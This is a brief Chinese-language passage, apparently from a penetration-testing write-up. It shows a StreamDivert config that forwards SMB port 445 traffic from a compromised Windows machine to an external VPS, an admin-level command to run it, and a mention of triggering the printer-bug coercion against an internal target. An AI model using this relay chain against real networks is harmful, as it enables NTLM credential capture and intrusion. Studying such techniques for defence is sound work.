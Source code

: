 ![截图](cd2159ca84177fba1fe18980a5ac6a2b.png)

配置文件如下，其中 81.68.255.200 是 VPS 的 ip

```
tcp < 445 0.0.0.0 -> 81.68.255.200 1445
```

然后在目标机器以管理员权限执行如下命令：

```
StreamDivert.exe config.txt -f -v
```

![截图](62efe4f739d2d5b22d6c69e96ee3bc41.png)

使用打印机漏洞触发，其中需要攻击的目标是 10.211.55.9，目标出网 Windows 机器是 10.211.55.10
